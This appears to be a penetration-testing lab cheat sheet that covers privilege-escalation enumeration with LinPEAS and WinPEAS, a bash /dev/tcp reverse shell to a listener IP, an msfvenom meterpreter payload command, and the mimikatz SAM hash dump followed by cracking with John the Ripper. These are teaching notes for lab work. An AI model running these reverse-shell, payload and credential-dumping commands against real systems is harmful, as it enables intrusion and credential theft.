 

# Enumeration Scripts

Note:  Enumeration scripts for this lab are located in 
`~/cnm352-tools/scripts`

### Uploading Scripts

Sometimes it can be a little tricky to find spots to upload scripts.  You will need a directory that is writable by your current user so you can write the file.  

In Linux, a likely folder is `/tmp`  because this is world-writable.  

In Windows, there are two folders you can try, using variable strings (you type these in exactly like this and the variable will translate to the correct place):

- On older versions of Windows:  `%systemdrive%\Windows\Temp`
- For newer versions: `%userprofile%\AppData\Local\Temp`

## Linux

### LinPEAS

To run the Linpeas enumeration script, first transfer the linpeas.sh file to the target and set the execute bits.

```bash
chmod +x linpeas.sh
```

Run the script one of two ways to capture output:

```bash
# Don't show output at the CLI, only capture to a file
./linpeas.sh > linpeas.txt

# Show output at CLI AND capture to file
./linpeas.sh | tee linpeas.txt
```

To view the output of the file in Kali with color coding:

```bash
less -r linpeas.txt
# Answer Y when asked if you want to continue opening
```

## Windows

### WinPEAS

Winpeas for Windows comes in multiple varieties.  The best one to use depends on the situation, but running each is straightforward:

```bash
# Batch file (for worst case scenarios)
winPEAS.bat > winpeas.txt

# 32-bit & compatible with 64-bit
winPEASx86.exe > winpeas.txt

# 64-bit only
winPEASx64.exe > winpeas.txt

# Viewing file from Windows CLI
type winpeas.txt
```

### Reverse Shell Without Netcat

You are not always guaranteed to have netcat on a target system.  You could always transfer the netcat binary.  However, it's also possible to initiate a reverse shell connection without netcat on the target.  

You will still need to start a netcat listener on Kali, but issuing this command on the target will cause the target to connect back in a reverse shell:

```bash
# Example 
# Connect to a netcat listener on 10.250.226.250 port 8001
bash &>/dev/tcp/10.250.226.250/8001 <&1
```

NOTE:  If echoing this command into a file, BE SURE to enclose it in single quotes or it will execute commands:

```bash
# Example
echo 'bash &>/dev/tcp/10.250.226.250/8001 <&1' > somefile.sh
```

MSFvenome

msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.14.37 LPORT=8000 -f exe -o win_met_revhttp_8000.exe

### Checking Permissions on Windows

Use whoami to check if a user is an administrator on Windows and also what context the prompt is running in.

#### Admin Group

Check the groups a user is in with whoami and see if they are a member of Administrators:

```bash
whoami /groups
```

#### UAC Context

If UAC is enabled on a system, the prompt can run in an admin or non-admin context, depending on what created the shell.  You can tell this by looking at the `whoami /groups` output and near the end is a line that says `Mandatory Label`.  

- If the prompt is an admin prompt, this will display `Mandatory Label\High Mandatory Level`
- If the prompt is an non-admin prompt, this will display `Mandatory Label\Medium Mandatory Level` 

#### Extended Permissions

You can view the special permissions of an account to see if they have some vulnerable permissions such as `seimpersonate` using this command:

```bash
whoami /priv
```

### Checking Windows Architecture

Enter this command to find the system's 32 or 64 bit architecture:

```bash
wmic os get OSArchitecture
```

### Dumping Windows Hashes with MimiKatz

You can dump hashes in a regular shell by using the mimikatz tool.   The mimikatz executables are found in Kali under `/usr/share/windows-resources/mimikatz`.  Mimikatz has a 32 and 64-bit version, and this should match the target system's architecture.  

This tool requires and admin account in order to run.

After transferring the correct mimikatz binary to the Windows target, run mimikatz to enter the mimikatz prompt.  Then run the following commands to retrieve the hashes:

1. Request debug privileges

   `privilege::debug`

2. Impersonate the SYSTEM user's token to run commands as SYSTEM
   `token::elevate`

3. Dump the password hashes in the SAM file from the LSA process's memory space
   `lsadump::sam`

4. Search the output for usernames and hashes.  It will show up as an NTLM hash, but JTR uses `NT` as the format.

5. Copy the hash values to a file in Kali Linux and then run John the Ripper on them to crack them:
   `john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt`

